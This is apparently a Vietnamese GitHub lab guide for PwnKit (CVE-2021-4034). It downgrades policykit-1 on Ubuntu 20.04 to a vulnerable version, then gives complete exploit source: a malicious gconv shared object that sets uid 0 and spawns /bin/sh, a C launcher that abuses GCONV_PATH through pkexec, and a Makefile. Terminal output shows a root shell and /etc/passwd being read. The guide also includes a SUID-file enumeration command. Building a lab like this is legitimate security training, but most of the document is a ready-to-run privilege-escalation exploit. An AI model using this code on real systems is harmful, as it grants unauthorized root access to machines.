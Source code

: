 # 🛠️ Setup Môi Trường Khai Thác PwnKit (CVE-2021-4034)

## 📌 Mục tiêu
Tạo môi trường với phiên bản `pkexec` dễ bị khai thác, sử dụng kernel `5.4.0-107-generic` trên Ubuntu 20.04.

---

## Bước 1: Cài đúng phiên bản Kernel

Kiểm tra xem hệ thống đã có sẵn phiên bản kernel mong muốn chưa:

```shell
apt list --all-versions linux-image-5.4.0-107-generic
```

![image](../images/img5.png)

Cài đặt kernel và headers: 

```shell
sudo apt install linux-image-5.4.0-107-generic linux-headers-5.4.0-107-generic
```

![image](../images/img6.png)

---

## Bước 2: Kiểm tra các file có quyền SUID

```shell
find / -perm -4000 2>/dev/null
```

![image](../images/img7.png)

Thấy thư viện `/usr/bin/pkexec` hiện hành. Tìm kiếm và xem phiên bản:

![image](../images/img8.png)

---

## Bước 3: Kiểm tra và cài đúng phiên bản policykit-1

Phiên bản hiện tại:

```shell
dpkg -l | grep policykit-1
```

![image](../images/img9.png)


Gỡ bản hiện tại:

```shell
sudo apt remove --purge policykit-1
```

![image](../images/img10.png)

Xem các phiên bản có thể cài:

```shell
apt-cache madison policykit-1
```

![image](../images/img11.png)

Cài bản dễ bị khai thác:

```shell
sudo apt install policykit-1=0.105-26ubuntu1 libpolkit-agent-1-0=0.105-26ubuntu1 libpolkit-gobject-1-0=0.105-26ubuntu1
```

![image](../images/img12.png)

---

## Bước 4: Chuẩn bị và khai thác

`evil-so.c`

![image](../images/img13.png)


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}
void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```


`exploit.c`

![image](../images/img14.png)


```c
#include <stdio.h>
#include <stdlib.h>
#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main() {
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    return 0;
}
```

`Makefile`

![image](../images/img15.png)


```make
all:
        gcc -shared -o evil.so -fPIC evil-so.c
        gcc exploit.c -o exploit
clean:
        rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

Biên dịch và chạy:

![image](../images/img4.png)


```shell
h13u@ubuntu:~/tmp$ ls
evil-so.c  exploit.c  Makefile
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:9:5: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
    9 |     setgroups(0);
      |     ^~~~~~~~~
      |     getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
   10 |     execve("/bin/sh", NULL, NULL);
      |     ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:23:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   23 |     execve(BIN, argv, envp);
      |     ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile
h13u@ubuntu:~/tmp$ ./exploit 
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
...
```



